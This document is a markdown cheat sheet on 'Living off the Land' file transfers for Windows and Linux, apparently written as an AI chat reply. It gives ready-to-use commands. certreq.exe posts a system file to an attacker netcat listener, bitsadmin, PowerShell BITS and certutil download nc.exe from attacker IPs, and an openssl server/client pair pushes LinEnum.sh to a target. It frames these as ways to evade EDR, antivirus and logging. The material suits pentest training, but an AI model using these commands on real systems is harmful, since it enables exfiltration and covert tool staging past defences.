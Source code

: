 

**Concept:**  
The term _Living off the Land_ was coined by **@obscuresec** & **@mattifestation** and refers to leveraging built-in binaries on **Windows** and **Linux** systems to perform tasks like:

- 📤 **Uploads**
    
- 📥 **Downloads**
    
- ⚙️ **Execution**
    
- 📖 **File access**
    
- 🔐 **Bypasses**
    

This technique **reduces the need for external tools**, helping evade **EDRs, AVs, and logging solutions**.

---

## **Toolkits to Know**

- **🪟 Windows – LOLBAS**  
    A catalog of Living off the Land Binaries And Scripts for Windows.
    
- **🐧 Linux – GTFOBins**  
    A curated list of Unix binaries that can be abused by attackers or red teamers.  
    Use filters like:
    
    ```
    /download
    /upload
    +file read
    +file write
    ```
    

---

## **Windows Examples**

### **Upload Using `certreq.exe` (LOLBAS)**

**From the target system:**

```cmd
certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
```

**On the attack server (catch file):**

```bash
sudo nc -lvnp 8000
```

📝 Copy-paste the contents from the netcat listener.  
⚠️ Some versions of `certreq.exe` do **not** support the `-Post` parameter. Use an updated version if needed.

---

### **Download Using `bitsadmin`**

```cmd
bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\Public\nc.exe
```

- Transfers files silently using BITS, mimicking legitimate system update behavior.
    

---

### **PowerShell BITS Transfer**

```powershell
Import-Module bitstransfer
Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

- More advanced, supports **proxies and credentials**.
    

---

### **Download Using `certutil.exe`**

```cmd
certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```

- Originally for certificate operations, now commonly used as a **wget replacement**.
    

---

## **Linux Examples**

### **Download Using OpenSSL (GTFOBins)**

**Step 1 – On attacker (start SSL server):**

```bash
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

**Step 2 – On target (download file):**

```bash
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

✅ File received securely over SSL **without needing `wget` or `curl`**.

---

Would you like me to turn this into a **quick-reference PDF cheat sheet**?